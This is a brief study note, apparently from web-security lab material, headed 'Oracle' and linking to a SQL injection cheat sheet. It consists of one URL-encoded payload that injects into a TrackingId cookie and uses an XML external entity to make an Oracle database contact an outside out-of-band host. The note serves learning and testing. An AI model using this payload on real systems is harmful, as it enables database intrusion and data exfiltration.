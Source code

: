 Oracle

https://portswigger.net/web-security/sql-injection/cheat-sheet

```R
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//bixkdbjkewy7v26t6d9ep4em9df73zunj.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```